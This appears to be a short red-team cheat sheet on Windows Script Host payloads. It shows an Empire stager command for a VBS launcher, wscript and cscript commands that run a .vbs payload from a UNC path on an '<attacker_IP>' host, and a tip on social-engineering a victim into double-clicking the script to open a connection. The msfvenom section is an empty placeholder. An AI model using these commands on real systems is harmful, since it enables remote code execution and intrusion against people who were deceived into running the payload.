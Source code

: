 # Windows Scripting Host

## 01 - Generate Payloads

### 1.1 - `msfvenom`

```

```

### 1.2 - Empire

TODO: Fill this info

```
(Empire) > usestager windows/launcher_vbs
```

## 02 - Execute Payloads

> [!TIP] Windows Scripting Host Payloads
> You can actually social engineer the victim to double click the `.vbs` or `.js` to establish connection.

### 2.1 - VBScript

```
C:\> wscript.exe <script.js | script.vbs>

C:\> wscript.exe //E:vbscript \\<attacker_IP>\path\to\payload.vbs
```

### 2.2 - JScript

```
C:\> cscript.exe <script.js | script.vbs | script.cs>

C:\> cscript.exe //E:jscript \\<attacker_IP>\path\to\payload.vbs
```

---
## References

### Hacktricks

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/reverse-shells/windows.html)

### Red Team Notes

- [Red Team Notes: `pubprn.vbs` Signed Script Code Execution](https://www.ired.team/offensive-security/code-execution/t1216-signed-script-ce)